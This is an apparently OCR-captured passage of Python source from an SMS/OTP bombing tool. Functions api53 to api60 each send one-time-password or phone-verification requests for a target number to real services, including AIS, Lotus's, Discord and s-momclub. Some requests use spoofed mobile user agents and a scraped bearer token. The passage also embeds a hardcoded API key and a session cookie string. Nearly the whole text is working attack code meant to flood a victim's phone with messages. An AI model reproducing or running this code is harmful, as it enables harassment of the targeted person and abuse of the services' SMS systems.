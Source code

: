     def api53(phone):

        post("https://www.kaitorasap.co.th/api/index.php/send-otp/",

             data={"phone_number": phone, "lag": " "})

    def api55(phone):

        session = Session()

        ReqTOKEN = session.get("https://srfng.ais.co.th/Lt6YyRR2Vvz%2B%2F6MNG9xQvVTU0rmMQ5snCwKRaK6rpTruhM%2BDAzuhRQ%3D%3D?redirect_uri=https%3A%2F%2Faisplay.ais.co.th%2Fportal%2Fcallback%2Ffungus%2Fany&httpGenerate=generated",

                               headers={"User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"}).text

        session.post("https://srfng.ais.co.th/login/sendOneTimePW", data=f"msisdn=66{phone[1:]}&serviceId=AISPlay&accountType=all&otpChannel=sms", headers={

                     "User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "authorization": f'''Bearer {search("""<input type="hidden" id='token' value="(.*)">""", ReqTOKEN).group(1)}'''})

    def api56(phone):

        post("https://discord.com/api/v9/users/@me/phone",

             headers=header, json={"phone": "+66"+phone})

    def api57(phone):

        post("https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp",

             data={"mobile_phone_no": phone})

    def api58(phone):

        post("https://www.tgfone.com/signin/otp_chk_fast",

             headers=header, json=f"mobile={phone}&type_otp=7")

    def api59(phone):

        post("https://ufa3bb.com/account/register/sendotp",

             headers=header, data=f"phone={phone}")

    def api60(phone):

        post("https://login.s-momclub.com/accounts.otp.sendCode", data=f"phoneNumber=%2B66{phone[1:]}&lang=th&APIKey=3_R6NL_0KSx2Jyu7CsoDxVYau1jyOIaPzXKbwpatJ_-GZStVrCHeHNIO3L1CEKVIKC&source=showScreenSet&sdk=js_latest&authMode=cookie&pageURL=https%3A%2F%2Fwww.s-momclub.com%2Fprofile%2Flogin&sdkBuild=12563&format=json", headers={"content-type": "application/x-www-form-urlencoded", "user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",

             "cookie": "gmid=gmid.ver4.AcbHriHAww._ill8qHpGNXtv9aY3XQyCvPohNww4j7EtjeiM3jBccqD7Vx0OmGeJuXcpQ2orXGs.nH0yRZjbm75C-5MVgB2Ii0PWvx6TICBn1LYI_XtlgoHg9mnouZgNs6CHULJEitOfkBhHvf8zUvrvMauanc52Sw.sc3;ucid=Tn63eeu2u8ygoINkqYBk5w;hasGmid=ver4;_ga=GA1.2.1714152564.1642328595;_fbp=fb.1.1642328611770.178002163;_gcl_au=1.1.64457176.1642329285;gig_bootstrap_3_R6NL_0KSx2Jyu7CsoDxVYau1jyOIaPzXKbwpatJ_-GZStVrCHeHNIO3L1CEKVIKC=login_ver4;_gid=GA1.2.1524201365.1642442639;_gat=1;_gat_rolloutTracker=1;_gat_globalTracker=1;_gat_UA-62402337-1=1"})
